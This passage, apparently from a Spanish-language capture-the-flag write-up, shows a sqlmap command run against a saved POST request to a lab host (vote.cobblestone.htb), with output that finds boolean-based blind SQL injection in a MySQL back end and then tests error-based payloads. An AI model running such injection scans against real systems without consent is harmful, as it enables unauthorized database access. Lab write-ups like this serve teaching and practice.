 Una vez guardado en un archivo la peticion vamos a lanzar `sqlmap` de esta forma:

```shell
sqlmap -r req.txt --method=POST --batch --dbs
```

Info:

```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:44:22 /2025-10-07/

[10:44:22] [INFO] parsing HTTP request from 'req.txt'
[10:44:22] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=6'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[10:44:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:44:22] [INFO] testing if the target URL content is stable
[10:44:23] [WARNING] POST parameter 'url' does not appear to be dynamic
[10:44:23] [WARNING] heuristic (basic) test shows that POST parameter 'url' might not be injectable
[10:44:23] [INFO] testing for SQL injection on POST parameter 'url'
[10:44:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:44:23] [INFO] POST parameter 'url' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[10:44:25] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[10:44:25] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:44:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:44:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:44:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:44:26] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:44:26] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[10:44:26] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[10:44:26] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[10:44:26] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:44:26] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:44:26] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:44:27] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:44:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:44:27] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
```